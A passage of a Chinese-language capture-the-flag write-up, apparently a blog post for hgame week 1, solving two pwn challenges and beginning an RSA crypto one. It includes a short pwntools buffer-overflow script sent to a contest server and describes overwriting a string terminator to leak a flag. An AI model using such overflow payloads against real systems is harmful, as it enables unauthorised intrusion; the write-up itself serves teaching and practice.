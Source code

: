 >hgame{b45e6a_i5_50_eazy_6VVSQ}

# pwn

## Hard_AAAAA

用ida打开
![](https://r3n0.top/wp-content/uploads/2020/04/week1-20.png)
写入s覆盖v5

```python
#-*-coding:utf-8 -*-
from pwn import *

r = remote('47.103.214.163', 20000)

r.recvuntil('0!')
payload = 'a'*0x7B + "0O0o\0O0"
#print(payload)
r.send(payload)
r.interactive()
```

![](https://r3n0.top/wp-content/uploads/2020/04/week1-21.png)

## oneshot

![](https://r3n0.top/wp-content/uploads/2020/04/week1-22.png)
一开始不明白为什么输入v4后程序就自动断开了，仔细一看

关键就是v4
v4本来是指针变量,后面又把v4的值赋成了0，
后面scanf的时候又取了v4的地址，又把v4解指针后的值赋了1

查看内存后发现flag和name的地址正好相差32
于是可以将name最后的\0改掉让它和flag接上


先输入31个字符，第32位就是\0
在最后输入v4的时候输入\0的地址，就把\0改为了1，得到flag
![](https://r3n0.top/wp-content/uploads/2020/04/week1-23.png)

# crypto

## infantRSA

```python
# coding = utf-8
def computeD(fn, e):
    (x, y, r) = extendedGCD(fn, e)
    #y maybe < 0, so convert it
    if y < 0:
        return fn + y
    return y
 
def extendedGCD(a, b):
    #a*xi + b*yi = ri
    if b == 0:
        return (1, 0, a)
    #a*x1 + b*y1 = a
    x1 = 1
    y1 = 0
```